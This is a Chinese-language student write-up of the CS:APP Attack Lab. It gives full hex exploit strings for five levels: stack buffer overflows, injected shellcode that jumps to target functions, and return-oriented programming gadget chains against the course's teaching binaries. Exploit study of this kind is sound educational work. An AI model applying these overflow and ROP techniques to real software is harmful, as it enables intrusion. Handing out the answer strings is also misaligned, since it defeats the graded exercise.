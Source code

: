 ```yaml
---
typora-root-url: img
---
```


本次lab的内容是利用程序的缓冲区溢出攻击程序。程序进行函数调用时会先把返回地址压入栈中，然后读入数据至缓冲区，若没有防止溢出的机制，过长的输入将覆盖返回地址，从而将程序导向其他地方（bomb！）

##### level1

从官方的手册可知，程序首先执行test()，在函数内调用getbuf()读入字符串然后结束返回test()，打印no exploit，我们要做的就是在打印no exploit之前将程序引向touch1引爆炸弹。

从getbuf入手，让它跳转至touch而非返回，来看getbuf的代码（先objdump ctarget）

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	move   %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
```

getbuf开辟0x28即40B的栈空间即缓冲区，用get读入字符串后返回，当然在开辟空间前还进行了test地址压栈。知道了这个栈帧情况就很容易攻击了，可以先读入40B字符，然后再读入touch1的地址，读入数据大于40B导致缓冲区溢出，最后读入的touch1地址将覆盖test的地址。

touch1的地址是0x4017c0，考虑小端存储答案为：

00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00

![1](/1.png)



##### level2

touch2需要读入一个参数，当参数为cookie时才能通过，根据提示知参数存在rdi里。源代码里没有输入cookie的语句，所以我们要自己编写相关代码，然后注入代码的地址，让程序执行指定的代码。

注入的代码应该实现两个功能：1、把cookie值移动到rdi中，2、跳转到touch2处

```assembly
movq $0x59b997fa, %rdi
pushq $0x4017ec
ret
```

使用gcc生成.o目标文件，然后反汇编生成汇编代码：

```assembly
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
```

这样就得到了我们的代码的地址，但怎么让程序执行它们（跳到该地址）呢？可以参考上一题借用test的返回地址，用这些地址的地址覆盖test的返回地址。这些地址的地址是什么？它们保存在getbuf的栈帧里，地址就是栈顶指针rsp的值。

利用gdb在getbuf分配完栈空间后即0x4017ac处打断点，r执行之后info r rsp查看执行完getbuf后rsp的值，得到结果为0x5561dc78。所以我们在前40B保存我们代码的地址，再利用缓冲区溢出覆盖test的返回地址，使程序到我们制定的地址执行我们的代码。

48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00

![2](/2.png)



##### level3

本关也需要输入字符串然后匹配，touch3要读入字符串的地址，cookie存在哪？手册提示hexmatch使用了栈随机化，很可能覆盖getbuf的栈空间，应该把cookie存在test的栈帧里。

利用上面info r rsp的方法找到test的rsp指针0x5561dca8，要把cookie存到此处，在编写自己的代码是就把该地址放入rdi寄存器，touch3的地址是0x4018fa，所以汇编写成：

```assembly
movq $0x5561dca8, %rdi
pushq $0x4018fa
ret
```

反汇编后得到代码地址，同样要用gebuf的栈顶地址0x5561dc78覆盖test的返回地址，以便执行这些代码，然后读入cookie（要转为ascii码）

48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61

![3](/3.png)



##### level4

上面三关是利用缓存区溢出进行代码注入攻击（CIA），后面的两关程序采用了防护方式无法进行代码注入，它们需使用面向返回（ROP）的攻击方式。

ROP的思路是既然无法注入自己的代码，那就在原代码中找我们需要的片段，然后拼凑成需要的程序

重复level2，我们需要把cookie的值移到rdi中，但不能编写汇编。可以先读入cookie，然后执行pop rdi，但给的gadget中没找到pop rdi，需要做一下中转。先找到pop rax的代码，查表知其编码为58，在rtarget的汇编中搜索58，可以在0x4019b5处找到，58具体的地址是0x4019ab

```assembly
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
```

再找mov rax rdi的汇编，其编码为48 89 c7，在如下地方找到，具体地址为0x4019a2

```assembly
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
```

于是有了答案：先读入40B空字符，然后分别读入0x4019ab、cookie、0x4019a2、touch2的地址

00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00

![4](/4.png)



##### level5

实验做到这就差不多了，该掌握的方法都过了一遍，这关是一个大综合，需要组织汇编然后在rtarget中找到相应的gadget，和上题一样注入，最后答案为：

00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
ad 1a 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
cc 19 40 00 00 00 00 00 
48 00 00 00 00 00 00 00 
dd 19 40 00 00 00 00 00 
70 1a 40 00 00 00 00 00 
13 1a 40 00 00 00 00 00 
d6 19 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
fa 18 40 00 00 00 00 00 
35 39 62 39 39 37 66 61

![5](/5.png)

